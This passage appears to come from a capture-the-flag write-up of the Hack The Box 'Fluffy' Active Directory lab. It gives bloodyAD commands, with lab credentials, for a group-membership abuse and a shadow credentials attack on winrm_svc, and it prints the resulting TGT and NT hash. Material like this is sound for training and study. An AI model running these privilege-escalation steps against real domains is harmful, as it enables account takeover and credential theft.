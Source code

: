 ```bash
bloodyAD -d fluffy.htb --host 10.129.14.248 -u p.agila -p prometheusx-303 add groupMember 'Service Accounts' p.agila
```

Let's verify our new permissions:

```bash
bloodyAD -d fluffy.htb --host 10.129.14.248 -u p.agila -p prometheusx-303 get writable
```

![bloodyAD two](file-20250806145920964.png)

**Key Finding:** We now have `GenericWrite` permissions over service accounts, giving us access to `ldap_svc` and `ca_svc` accounts.


### BloodHound Attack Path Analysis

Using BloodHound, we can visualize the attack path from our current position to domain admin:

![BloodHound path](file-20250806150906666.png)

This shows us the potential path through service accounts to achieve domain admin privileges.

---

## Shadow Credentials Attack

### Shadow Credentials on winrm_svc

We can use the shadow credentials attack to add key credentials to the `winrm_svc` account:

```bash
bloodyAD -d fluffy.htb --host 10.129.14.248 -u p.agila -p prometheusx-303 add shadowCredentials winrm_svc
```

**Results:**
```bash
[+] KeyCredential generated with following sha256 of RSA key: 9bb6b3bf7c64848f6b08f363bfe92c93bbdb8939b5fab6ad89d88471de0757af
[+] TGT stored in ccache file winrm_svc_3I.ccache

NT: 33bd09dcd697600edf6b3a7af4875767
```

**Command Explanation:**
- `add shadowCredentials`: Adds a key credential to the target account
- `winrm_svc`: The target service account
- The tool generates an RSA key pair and stores the TGT in a ccache file

> **Note:** We then use the shadow credentials attack to get the hash for those two users
{: .prompt-info}

---
